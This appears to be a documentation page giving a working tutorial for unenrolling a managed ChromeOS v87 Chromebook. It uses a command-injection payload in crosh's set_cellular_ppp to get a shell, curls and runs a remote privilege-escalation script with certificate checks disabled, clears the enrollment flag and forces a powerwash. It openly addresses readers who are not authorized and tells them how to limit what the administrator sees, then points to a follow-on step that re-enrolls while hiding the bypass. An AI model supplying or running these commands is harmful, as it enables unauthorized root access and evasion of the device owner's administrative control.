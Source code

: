 ```yaml
---
title: "v87 Unenrollment - Crosh"
pagination_next: fakemurk
pagination_prev: get-started
---
```


## Section I - Obtain Root Access

Inside of crosh, run the following command:

```sh
set_cellular_ppp \';bash;exit;\'
```

You should be dropped into a bash shell. If not, check the [troubleshooting guide](troubleshooting).

Now, run the following command to download and run the privilege escalation script:

```sh
cd ~/Downloads && curl -LOk https://raw.githubusercontent.com/luphoria/chromeos-rootable/master/privesc/privesc-87.sh && bash <(cat ~/Downloads/privesc-87.sh)
```

You should be dropped into a bash shell with a **red** prompt. If not, check the [troubleshooting guide](troubleshooting).

## Section II - Unenrolling and Powerwashing

Run the following command:

```sh
vpd -i RW_VPD -s check_enrollment=0
```

Now, we need to powerwash the device to fully unenroll. Run the following commands:

```sh
echo "fast safe" >/mnt/stateful_partition/factory_install_reset
reboot
```

After powerwashing, your Chromebook will behave like a personal device and will be completely unrestricted.

:::danger

Your administrator wil be able to see that your device is "offline", and you should spend as little time as possible in this state if you are not authorized to be following this tutorial.

:::

## Section III - Next Steps

:::tip[Next]

If you want to re-enroll but keep your Chromebook unrestricted, continue to [fakemurk](../fakemurk)

...or you could just keep your device like this, and use it as a personal device. The choice is yours.

:::